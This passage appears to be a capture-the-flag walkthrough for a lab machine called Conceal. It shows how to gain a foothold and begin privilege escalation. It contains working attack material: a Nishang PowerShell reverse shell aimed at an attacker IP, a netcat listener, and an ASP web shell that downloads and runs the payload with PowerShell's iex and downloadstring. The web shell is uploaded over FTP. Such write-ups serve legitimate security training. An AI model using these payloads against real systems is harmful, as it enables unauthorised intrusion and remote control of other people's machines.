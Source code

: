 We have code execution! Download the [Nishang](https://github.com/samratashok/nishang) repository and copy the _Invoke-PowerShellTcp.ps1_ script into your current directory.

```text
cp ../../../tools/nishang/Shells/Invoke-PowerShellTcp.ps1 .
mv Invoke-PowerShellTcp.ps1 shell.ps1
```

Add the following line to the end of the script with the attack machine configuration settings.

```text
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.7 -Port 1234
```

When called, this sends a reverse shell back to our attack machine on port 1234.

Setup a listener to receive the reverse shell.

```text
nc -nlvp 1234
```

Next, change the _cmd.asp_ file to download the PowerShell script and execute it.

```text
<%
Set rs = CreateObject("WScript.Shell")
Set cmd = rs.Exec("cmd /c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.7:5555/shell.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>
```

Start up a python server in the directory that the shell script resides in.

```text
python -m SimpleHTTPServer 5555
```

Upload the _cmd.asp_ file on the FTP server and view it on the browser.

![](https://miro.medium.com/max/801/1*zHVh8nxaQxjprpyKmSHDOw.png)

We get a shell! Grab the _user.txt_ flag.

![](https://miro.medium.com/max/650/1*elQ-E-q4GYfsIhvY5kKZ4A.png)

## Privilege Escalation <a id="90be"></a>

Run the _systeminfo_ command.

```text
PS C:\Users\Destitute\Desktop> systeminfo
                                                                                                                     
Host Name:                 CONCEAL                                                                                   
OS Name:                   Microsoft Windows 10 Enterprise                                                                                  
OS Version:                10.0.15063 N/A Build 15063                                                                                       
OS Manufacturer:           Microsoft Corporation                                                                                            
OS Configuration:          Standalone Workstation                                                                                           
OS Build Type:             Multiprocessor Free                                                                                                              
Registered Owner:          Windows User                                                                                                                     
Registered Organization:                                                                                                                                                       
```